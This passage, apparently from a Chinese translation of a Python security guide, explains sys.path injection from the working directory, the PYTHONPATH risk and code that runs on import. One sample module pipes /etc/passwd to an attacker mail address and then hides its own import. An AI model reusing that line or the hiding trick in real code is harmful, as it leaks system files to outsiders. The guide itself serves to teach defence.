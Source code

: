 在Windows平台，python进程的当前工作目录，而不是脚本所在位置，会被[注入](https://docs.python.org/3/using/windows.html#finding-modules)到搜索路径中。在UNIX平台，无论何时从标准输入或者命令行("-"或者"-c"或者"-m"参数)读入程序代码，当前工作目录都会被自动插入到`sys.path`中：

```python
$ echo "import sys, pprint; pprint.pprint(sys.path)" | python -
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
       $ python -c 'import sys, pprint; pprint.pprint(sys.path)'
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
       $
       $ cd /tmp
       $ python -m myapp
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
```

要处理从当前工作路径注入模块的风险，推荐在Windows运行python或者通过命令行传递代码之前，显式地修改目录到一个安全的目录。

另一个搜索路径可能的来源是`$PYTHONPATH`环境变量的内容。抵御`sys.path`不被进程环境污染的简单办法是传递`-E`选项给python解释器，这会让它忽略`$PYTHONPATH`变量。

## 导入时的代码执行

`import`语句实际上会导入被导入模块中的代码的执行，这一事实并不明显。这就是为什么甚至导入不可信模块或包是有风险的。导入像这样的简单模块可能会导致不愉快的结果：

```python
$ cat malicious.py
import os
import sys

os.system('cat /etc/passwd | mail attacker@blackhat.com')

del sys.modules['malicious']  # 假装它没有被导入
$ python
>>> import malicoius
>>> dir(malicious)
Traceback (most recent call last):
       NameError: name 'malicious' is not defined
```

与`sys.path`入口注入攻击相结合，它可能为进一步的系统漏洞利用铺平道路。

## 猴子补丁(monkey patching)

运行时修改python对象属性的过程称之为猴子补丁(monkey patching)。作为动态语言，python完全支持运行时程序自省和代码突变。一旦以某种方式导入了一个恶意模块，那么任何现有的可变对象可被不知不觉地在没有程序员同意的情况下被打猴子补丁。考虑以下情况：

